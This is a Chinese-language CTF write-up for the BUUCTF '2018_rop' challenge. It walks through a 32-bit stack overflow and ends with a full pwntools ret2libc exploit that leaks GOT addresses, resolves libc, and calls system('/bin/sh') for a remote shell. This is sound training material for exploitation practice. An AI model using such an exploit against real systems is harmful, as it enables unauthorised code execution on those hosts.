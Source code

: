 首先检查安全机制

![image-20201107141506926](https://static.hack1s.fun/images/2021/02/06/image-20201107141506926.png)

开启了NX的32位程序

main函数反编译后发现里面按顺序调用了两个函数

![image-20201107141740396](https://static.hack1s.fun/images/2021/02/06/image-20201107141740396.png)

其中vulnerable_function存在溢出

![image-20201107141800487](https://static.hack1s.fun/images/2021/02/06/image-20201107141800487.png)

没有在程序中找到system、binsh这些

所以就当作ret2libc来做

首先用write输出write或read的got表中的真实地址，之后用LibcSearcher查libc的版本

最后计算system、binsh的偏移拿shell

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',27746)
#io = process('2018_rop')
elf = ELF('./2018_rop')
plt_write = elf.plt['write']
got_write = elf.got['write']

payload = 'a'*0x88 + 'b'*4 + p32(plt_write) + p32(elf.sym['vulnerable_function']) + p32(1) + p32(elf.got['write']) + p32(4)
io.sendline(payload)
write_real = u32(io.recv(4))


payload = 'a'*0x88 + 'b'*4 + p32(plt_write) + p32(elf.sym['vulnerable_function']) + p32(1) + p32(elf.got['read']) + p32(4)
io.sendline(payload)
read_real = u32(io.recv(4))

libc = LibcSearcher(address=read_real,func='read')
libc.add_condition(address=write_real,func='write')

libc_base = read_real - libc.dump('read')

system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'a'*0x88 + 'b'*4 + p32(system_addr) + p32(elf.sym['vulnerable_function']) + p32(binsh_addr)
io.sendline(payload)
io.interactive()
```

